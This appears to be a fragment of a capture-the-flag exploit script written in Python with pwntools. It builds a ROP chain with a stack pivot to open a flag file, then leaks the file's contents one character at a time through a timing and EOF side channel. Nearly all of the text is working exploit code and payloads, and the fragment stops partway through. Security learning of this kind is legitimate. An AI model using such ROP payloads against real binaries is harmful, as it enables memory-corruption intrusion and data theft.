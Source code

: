 ```python
.text:0000000000400A57                 mov     rdx, 80h        ; count
.text:0000000000400A5E                 syscall                 ; LINUX - sys_read
'''

pad = 40
readaddr = 0x400A46
bss = 0x6020E0
poprdiret = 0x0000000000400e13 #: pop rdi ; ret
rsir15ret = 0x0000000000400e11# : pop rsi ; pop r15 ; ret
poprspret = 0x00000000004008f4# : pop rsp ; ret
eaxret = 0x00000000004007a6 #: mov eax, edi ; mov ecx, esi ; ror eax, cl ; ret #esi need to be 0
syscall = 0x0000000000400a32# : syscall ; ret
cmpjge = 0x400A68
#io.recv()
#print context.terminal[1:]
#login()

'''
.text:0000000000400A68                 cmp     al, [rdi]
.text:0000000000400A6A                 jge     short sub_400A24
.text:0000000000400A6C                 retn
'''
dic = "abcdefghijklmnopqrstuvwxyz{}"

def check(io,x,y):
	login()
	pay1 = 'A'*40 + p64(poprdiret) + p64(bss+0x200) + p64(readaddr) + p64(poprdiret) + p64(2) + p64(rsir15ret) + p64(0)*2 + p64(eaxret) + p64(poprspret) + p64(bss+0x208) 
	pay1 = pay1 + '\x00'*(0x80-len(pay1))
	mes(pay1)
	pay2 = './flag\x00\x00' + p64(poprdiret) + p64(bss+0x200) + p64(syscall) + p64(poprdiret) + p64(bss+0x300) + p64(readaddr) + p64(poprspret) + p64(bss+0x300)
	pay2 = pay2 + '\x00'*(0x80-len(pay2))
	#print len(pay2)
	#由于输入长度有限，被迫做栈迁移。


	pay3 = p64(poprdiret) + p64(0)  + p64(eaxret) + p64(poprdiret) + p64(3) + p64(rsir15ret) + p64(bss+0x400) + p64(0) + p64(0x400A57) + p64(poprdiret)+p64(ord(dic[x])) + p64(eaxret) + p64(poprdiret) + p64(bss+0x400+y) + p64(cmpjge) + p64(readaddr)
	pay3 = pay3 + '\x00'*(0x80-len(pay3))
	#if match , program will exit otherwise wait for input

	#fd = 3

	#gdb.attach(io,'''
	#b *0x0000000000400a32
	#''')

	io.send(pay2)
#debug()
	sleep(0.1)
	io.send(pay3)
	#io.interactive()
	success('trying '+dic[x]+'@'+str(y))
	try:
		#io.recv()
		io.recv(timeout=0.5)
	except EOFError:
		return dic[x]
	return 0
#io.interactive()
x=-1
```